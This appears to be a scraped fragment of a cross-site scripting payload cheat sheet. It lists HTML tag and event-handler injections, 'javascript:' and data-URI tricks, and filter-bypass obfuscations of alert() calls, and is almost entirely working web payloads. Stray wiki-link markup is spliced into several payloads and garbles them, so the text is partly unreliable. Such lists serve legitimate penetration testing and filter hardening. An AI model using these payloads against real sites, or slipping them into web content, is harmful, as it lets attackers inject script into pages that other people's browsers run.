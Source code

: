 On Mouse Over​:

- <img src="/" =_=" title="onerror='prompt(1)'">
- <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>[[_content/dictionary#C|ClickMe]]
- <script x> alert(1) </script 1=2
- <form><button formaction=javascript&colon;alert(1)>[[_content/dictionary#C|CLICKME]]
- <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
- <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
- <[[_content/dictionary#O|OBJECT]] [[_content/dictionary#C|CLASSID]]="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><[[_content/dictionary#P|PARAM]] [[_content/dictionary#N|NAME]]="DataURL" [[_content/dictionary#V|VALUE]]="javascript:alert(1)"></OBJECT>

#### Filter Bypass Alert Obfuscation¶

- (alert)(1)
- a=alert,a(1)
- [1].find(alert)
- top[“al”+”ert”](1)
- top[/al/.source+/ert/.source](1)
- al\u0065rt(1)
- top[‘al\145rt’](1)
- top[‘al\x65rt’](1)
- top[8680439..toString(30)](1)
- alert?.()
- (alert())

The payload should include leading and trailing backticks:
&#96;`${alert``}`&#96;
